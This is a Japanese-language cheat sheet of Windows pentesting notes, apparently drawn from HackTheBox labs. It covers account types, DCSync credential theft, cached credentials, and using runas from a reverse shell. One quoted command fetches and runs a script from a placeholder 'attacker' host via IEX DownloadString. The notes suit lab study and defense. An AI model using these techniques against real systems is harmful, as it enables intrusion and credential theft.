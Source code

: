 # Windows
----

## Account
* Windowsのローカル管理者アカウントには、Administratorと、Administratorsグループに属するユーザの二種類が存在する
* Administratorは特殊なアカウントで、通常、初期状態では無効化されている
* AdministratorはUACによる制約を受けないが、Administratorsグループに属するユーザはUACによる制約を受ける、という違いがある
* Administratorおよび、Administratorsグループに属するユーザは、SMBへの書き込み権限を有するため、psexecを利用したログインが可能である
* またAdministratorより上位の権限を有するSystemが存在するが、これはWindowsがシステム管理に利用するためのアカウントであって、通常、ログインできない
* Systemもまた、UACの制約を受けない
* またMachine Accountと呼ばれるアカウントも存在し、コンピュータがドメインに参加する際は、Machine AccoountでコンピュータをDCに認証したのち、ユーザの認証が行われる
* Machine AccountはSMBへの書き込み権限を有さないため、psexecを利用したログインはできない
* ただし、DCのMachine AccountはDCSyncの権限を有するため、クレデンシャルの窃盗が可能である
* AccountにはSIDが割り振られている。SIDはランダムではない。単調増加であるため、デフォルトのアカウントには若いSIDが、作られたアカウントには大きなSIDが割り振られる。
* DCにおいて、デフォルトアカウントではなく、作られたアカウントは興味深い対象である。そのようなアカウントを特定するには、(大抵は)1000番台の大きなSIDを有するアカウントを探せばよい
* Domain Credentialsは`HKLM\SECURITY\Cache`にキャッシュされる。これにより、仮にDomain Controllerとネットワークが通信できない環境でも、ユーザはDomainに所属するユーザにログイン可能である
* かつて、WDigestおよびSSP 認証をサポートするために、LSASSプロセスのメモリにパスワードがクリアテキストで格納されていた
* しかしWindows 8.1世代以降ではWDigest認証が初期状態で無効化されており、基本的にメモリ上でパスワードが平文保存されることはない

## Group
* `Remote Management Users`グループに所属するユーザはwinrmが許可される


## 32 Bit or 64 Bit Process
* OSが32bitか、64bitか、シェルを実行しているプロセスが32bitか、64bitかチェック
* Kernel Exploitによっては、WOW64リダイレクトのために、32bitプロセスでは動作しない可能性がある
* Htb: Bart
  ```console
  PS C:\Users\Public> [environment]::Is64BitOperatingSystem
  True
  PS C:\Users\Public> [environment]::Is64BitProcess
  False
  ```

## Runas
* Windowsではrunasコマンドで別ユーザとしてコマンドを実行可能
* ただし、runasはインタラクティブにパスワードを入力を要求されるため、reverse shellなどの環境では実行できない
* そこで、reverse shellでは[PowerShell-Suite/Invork-Runas.ps1](https://github.com/FuzzySecurity/PowerShell-Suite)、Start-Process、もしくはInvoke-Commandを利用する
	* Invoke-CommandはWinRMが必要なことに注意
	* Start-Processはバックグランドで実行される
  * PSCredentialを生成する際に、ドメイン名（BART）が必要であることに注意
  * Htb: Bart
  
    ```console
    PS C:\Users\Public> $pass = ConvertTo-SecureString "3130438f31186fbaf962f407711faddb" -AsPlainText -Force
    PS C:\Users\Public> $cred = New-Object System.Management.Automation.PSCredential('BART\Administrator', $pass)
    PS C:\Users\Public> Invoke-Command -ScriptBlock {whoami} -Credential $cred -Computer localhost
    bart\administrator
    PS C:\Users\Public>
    ```
	* Htb: Chatterbox
		``` console
    PS C:\Users\Public> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).DownloadString('http://attacker')" -Credential $cred
		```
